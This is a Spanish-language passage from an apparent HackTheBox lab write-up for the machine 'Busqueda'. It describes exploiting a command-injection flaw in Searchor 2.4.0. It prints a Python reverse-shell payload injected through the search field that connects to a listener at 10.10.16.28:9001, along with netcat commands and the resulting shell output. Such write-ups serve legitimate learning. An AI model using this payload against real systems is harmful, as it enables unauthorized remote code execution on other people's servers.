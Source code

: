 Vemos que se está empleando `Flask` y `Searchor 2.4.0`

![](/assets/img/Busqueda/image_3.png)
## Web Exploitation

He encontrado la forma de `ejecutar comandos` en versiones iguales o inferiores a la 2.4.2 [https://github.com/jonnyzar/POC-Searchor-2.4.2.git](https://github.com/jonnyzar/POC-Searchor-2.4.2.git). Lo primero que debemos hacer es ponernos en `escucha` con `netcat`

```
# nc -nlvp 9001
```

Debemos `inyectar` este `payload` en la `búsqueda` de `Search`

![](/assets/img/Busqueda/image_4.png)

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.28',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

`Recibimos` una `shell`

```
# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.228.217] 37830
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```
